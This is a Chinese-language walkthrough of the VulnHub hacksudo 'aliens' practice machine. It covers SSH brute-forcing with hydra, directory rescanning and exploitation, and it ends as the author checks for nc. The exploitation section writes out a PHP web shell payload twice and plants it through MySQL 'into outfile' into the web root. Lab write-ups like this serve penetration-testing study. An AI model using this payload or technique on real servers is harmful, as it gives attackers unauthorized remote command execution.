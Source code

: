 尝试把上面的数据写入一个`word.txt`中，然后使用`hydra`尝试爆破`ssh`，并没有发现任何东西

![](D:\stu\vulnhub\hacksudo靶场\pic-aliens\16.jpg)

尝试使用`searchsploit`搜索有无漏洞可复现，发现并无对应的版本

把之前的图片下载尝试从图片获取，也是没有信息，这时候看了一下网上的`wp`，因为实在不知道还有什么。

看了之后发现，80端口压根没有加载完整，我真的服了，可能是因为在虚拟机环境的原因，加载不动，我这里在物理机的浏览器访问

![](D:\stu\vulnhub\hacksudo靶场\pic-aliens\17.jpg)

但是这里物理机访问也是很慢，估计资源加载的应该很多，猜测可能存在大量的`js`或其他的资源加载，所以目录扫描重新设置

![](D:\stu\vulnhub\hacksudo靶场\pic-aliens\18.jpg)



发现之前漏扫的类型，说实话，真的吃资源，我这一个靶机，加载这一个界面，磁盘占用soso的快

不过访问后还是不能有其他操作，啧，突然想到之前在`phpmyadmin`中看到有几个用户是具有写权限的

![](D:\stu\vulnhub\hacksudo靶场\pic-aliens\19.jpg)

并且在`backup`下载的`mysql.bak`中是有目录泄露的，之前截图未截取，这属于后半段的内容

![](D:\stu\vulnhub\hacksudo靶场\pic-aliens\20.jpg)

# 漏洞利用

这里可以尝试通过`mysql`命令写入`shell`到指定位置，不过，有的方式需要条件

这里查看`mysql`数据库版本

![](D:\stu\vulnhub\hacksudo靶场\pic-aliens\21.jpg)

可以使用`outfile`

```mysql
select "<?php system($_REQUEST['cmd']);?>" into outfile "/var/backups/mysql/shell.php"
```

或者这里直接php一句话木马也可以，然后直接使用蚁🗡进行连接即可

不过测试，发现上面的路径没有权限写入，那么换路径，比如默认的`apache2`网页界面`/var/www/html`

```mysql
select "<?php system($_REQUEST['cmd']);?>" into outfile "/var/www/html/shell.php"
```



![](D:\stu\vulnhub\hacksudo靶场\pic-aliens\22.jpg)

使用浏览器访问进行测试

![](D:\stu\vulnhub\hacksudo靶场\pic-aliens\23.jpg)

查看有无`nc`命令
